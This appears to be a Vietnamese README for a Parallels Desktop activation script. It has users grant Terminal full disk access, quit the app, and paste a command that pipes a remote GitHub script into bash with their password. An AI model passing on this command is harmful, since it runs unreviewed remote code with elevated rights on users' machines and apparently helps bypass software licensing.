 # Paralells-Desktop

B1 : Cấp quyền Full disk Access cho Terminal ( MacOS 13 )

B2 : Tắt ứng dụng Paralells Desktop hoàn toàn

B3 : Dán link dưới vào terminal ( Nhập mật khảu máy ) và check kết quả

```
bash <(curl -ls https://raw.githubusercontent.com/Github-Aiko/Paralells-Desktop/active/auto.sh)
```